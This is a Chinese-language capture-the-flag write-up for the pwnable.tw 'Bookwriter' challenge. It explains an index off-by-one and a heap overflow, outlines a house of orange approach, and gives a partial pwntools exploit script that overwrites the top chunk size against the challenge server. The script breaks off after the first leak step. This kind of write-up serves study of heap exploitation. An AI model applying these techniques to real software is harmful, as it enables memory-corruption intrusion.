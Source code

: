 
# Bookwriter
第一眼看过去的时候那个index8的洞是发现了...结果看都不看以为是自己看错了...后来山穷水尽的时候回头去看再发现了add的时候idx最大为8其他操作为7
也就是
* 可以吧idx=0的pagesize设置为0这样可以add8次，通过`edit(0,"\x00"+pay)`的形式来重制idx=0的size

* set_name的时候可以泄露heap地址后来发现没什么用...反正后面可以泄露

* edit存在bytes_off,可以edit两次来更改下一个chunk的head

一开始看到了没有free 想到了sysmalloc 和house of orange 但是感觉pwnable.tw应该没有那么快就orange了..于是乎想用force来做.于是探索了半天发现输入函数的atoi决定了不能用hose of force...

## 思路
house of orange
* sysmalloc 获得一个unsorted bin（大一点可以同时泄露heap和libc_base）
* leak libc&heap
* house of orange
## exp
```python
from pwn import *
def setname(c="nier"):
	p.sendafter("Author :",c)
def cmd(c):
	p.sendlineafter("choice :",str(c))
def add(size,c="nier"):
	cmd(1)
	p.sendlineafter("page :",str(size))
	p.sendafter("Content :",c)
#	sleep(1)
def show(idx):
	cmd(2)
	p.sendlineafter("page :",str(idx))
#	sleep(1)
def edit(idx,c):
	cmd(3)
	p.sendlineafter("page :",str(idx))
	p.sendafter("Content:",c)
#	sleep(1)
name="./bookwriter"
if 0:
	p=process(name,env={'LD_PRELOAD':'./libc_64.so.6'})
#	libc=ELF(name).libc
	libc=ELF("./libc_64.so.6")
else:
	p=remote("chall.pwnable.tw",10304)
	libc=ELF("./libc_64.so.6")
setname("A"*0x40)
#context.log_level='debug'
#
cmd(1)
p.sendlineafter("page :",'0')
#
add(0x28)#1
edit(1,"A"*0x28)
edit(1,"A"*0x28+'\xb1'+'\x0f'+'\x00')
add(0x1008,"A"*0x10)#2
# sysmalloc

add(0x28,"A")#3
show(3)
p.readuntil("Content :\n")
```